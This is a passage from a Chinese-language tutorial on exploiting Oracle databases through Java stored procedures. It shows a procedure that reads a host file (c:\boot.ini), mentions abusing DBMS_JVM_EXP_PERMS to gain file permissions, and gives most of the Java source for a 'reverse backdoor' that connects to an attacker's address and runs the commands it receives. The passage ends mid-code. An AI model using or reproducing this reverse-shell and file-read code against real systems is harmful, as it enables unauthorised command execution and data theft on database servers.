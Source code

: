 ```
System.out.println(text);  
text = fr.readLine();  
}  
fr.close();  
}  
}

create or replace procedure jreadfile (filename in varchar)  
as language java  
name 'javareadfile.readfile(java.lang.String)';

exec jreadfile('c:\boot.ini');

```

我们还是可以利用之前的那个DBMS_JVM_EXP_PERMS获取java.io.FilePermission，可以简单读取文件

**0x5 访问网络**

在PL/SQL中我们可以利用oracle自带的那几个包(utl_tcp,utl_http…etc)来访问网络，自我感觉不怎么好用，比较喜欢用java， 下面我们来实现一个简易的java版本反向后门

```
create or replace and compile java source named javasocket as  
import java.net.*;  
import java.io.*;  
import java.lang.*;

public class javasocket  
{  
public static void test(String addr,String str_port)  
{  
Socket socket;  
String len;  
String s;  
InputStream Is;  
OutputStream Os;  
DataInputStream DIS;  
PrintStream PS;

        try{ 
            socket=new Socket(addr,Integer.parseInt(str_port)); 
            Is=socket.getInputStream(); 
            Os=socket.getOutputStream(); 
            DIS=new DataInputStream(Is); 
            PS=new PrintStream(Os); 

            while(true){ 
                s=DIS.readLine();
                if(s.trim().equals("BYE"))break;

                try{
                    Runtime rt = Runtime.getRuntime();
                    Process p = null;
                    p = rt.exec(s);
                    s = null;
                    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
                    String msg = null;
                    while((msg = br.readLine())!=null){
                            msg += "\n";
                            s += msg;
                    }
                    br.close();
                 }
                catch(Exception e)
```